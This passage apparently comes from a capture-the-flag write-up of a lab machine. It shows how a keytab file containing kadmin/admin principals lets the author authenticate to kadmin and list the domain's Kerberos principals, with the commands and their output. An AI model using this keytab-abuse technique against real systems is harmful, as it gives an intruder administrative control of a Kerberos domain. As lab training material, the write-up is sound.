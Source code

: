 The file itself is binary, but `klist -k` will list the principles in the
keytab file (I’m not sure why each shows up five times, but I have a guess
from my work in Beyond Root):

    
    
    [admin@srv01 ~]$ klist -kt
    Keytab name: FILE:/etc/krb5.keytab
    KVNO Timestamp           Principal
    ---- ------------------- ------------------------------------------------------
       2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
       2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
       2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
       2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
       2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
       2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
       2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
       2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
       2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
       2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
       2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
       2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
       2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
       2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
       2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
    

By default, a `krb5.keytab` file would only have the host principle. But
another principle, kadmin, has been added here with both the `admin` and
`changepw` privileges. That means that anyone who can read this file can act
as kadmin, and that user can run the `kadmin` binary which allows them to
administer the Kerberos domain. Running it will drop me to a `kadmin` prompt:

    
    
    [admin@srv01 etc]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
    Couldn't open log file /var/log/kadmind.log: Permission denied
    Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
    kadmin:
    

It’s important to specify that I’m getting auth through the keytab file, and
that I want to enter as the kadmin principle with `admin` privs.

From within `kadmin`, I can list the users (principles) in the domain:

    
    
    kadmin:  list_principals
    K/M@REALCORP.HTB
    host/srv01.realcorp.htb@REALCORP.HTB
    j.nakazawa@REALCORP.HTB
    kadmin/admin@REALCORP.HTB
    kadmin/changepw@REALCORP.HTB
    kadmin/srv01.realcorp.htb@REALCORP.HTB
    kiprop/srv01.realcorp.htb@REALCORP.HTB
    krbtgt/REALCORP.HTB@REALCORP.HTB
    